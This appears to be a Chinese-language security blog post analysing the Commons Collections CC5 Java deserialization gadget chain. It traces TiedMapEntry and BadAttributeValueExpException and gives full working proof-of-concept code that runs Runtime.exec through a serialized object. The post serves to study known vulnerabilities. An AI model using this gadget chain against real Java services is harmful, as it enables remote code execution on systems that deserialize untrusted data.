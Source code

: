 ```yaml
---
title: JAVA安全:CC5链
---
```


*作者：Narcher*	*时间：2024/3/19*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

CC5的限制比较多，对于jdk版本以及必须WITHOUT a security manager

实际上这个CC5链和CC1很像啊，只是改变了LazyMap的get方法的触发方式，为了记录学习过程，还是写下来吧。



## 正文

先看一下ysoserial的CC5流程：

<img src="JAVA%E5%AE%89%E5%85%A8CC5%E9%93%BE/1710853519154.png" alt="1710853519154" style="zoom:67%;" />

由于和CC1链很像，我们就先把CC1复制过来看看：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
LazyMap innerMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
//反射获取AnnotationInvocationHandler类
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class,innerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
oos.writeObject(handler);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
ois.readObject();
```

我们需要改的就是LazyMap的后边，先看看调用get方法的类吧

### 1.TiedMapEntry部分

<img src="JAVA%E5%AE%89%E5%85%A8CC5%E9%93%BE/1710853749908.png" alt="1710853749908" style="zoom:67%;" />

可见TiedMapEntry的getValue方法调用了get方法，可作为一个点，我们继续往上找：

<img src="JAVA%E5%AE%89%E5%85%A8CC5%E9%93%BE/1710853880435.png" alt="1710853880435" style="zoom:67%;" />

可见其toString方法调用了getValue方法，我们再往上找

### 2.BadAttributeValueExpException部分

<img src="JAVA%E5%AE%89%E5%85%A8CC5%E9%93%BE/1710854104973.png" alt="1710854104973" style="zoom:67%;" />

可见BadAttributeValueExpException的readObject方法调用了toString方法，我们接下来只需要让valObj是我们传入的TiedMapEntry实例就行了，我们来看看valObj怎么来的：

```java
ObjectInputStream.GetField gf = ois.readFields();
Object valObj = gf.get("val", null);
```

说白了，valObj的值就是从输入流ois中读取的对象的"val"字段的值。如果该字段不存在或者值为null，valObj的值就会是null。

那么怎么控制val呢？如果直接在构造器中调用的话，那么在构造的时候就会直接触发这条链子，很简单，用反射不就是了

<img src="JAVA%E5%AE%89%E5%85%A8CC5%E9%93%BE/1710855036609.png" alt="1710855036609" style="zoom:67%;" />

```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Class c = badAttributeValueExpException.getClass();
Field valField = c.getDeclaredField("val");
valField.setAccessible(true);
valField.set(badAttributeValueExpException, tiedMapEntry);
```

### 3.构造链

把上边的直接改到CC1链子里就行了：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
LazyMap innerMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
//反射
TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "aaa");
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Class c = badAttributeValueExpException.getClass();
Field valField = c.getDeclaredField("val");
valField.setAccessible(true);
valField.set(badAttributeValueExpException, tiedMapEntry);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
oos.writeObject(badAttributeValueExpException);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
ois.readObject();
```

CC5就完成了。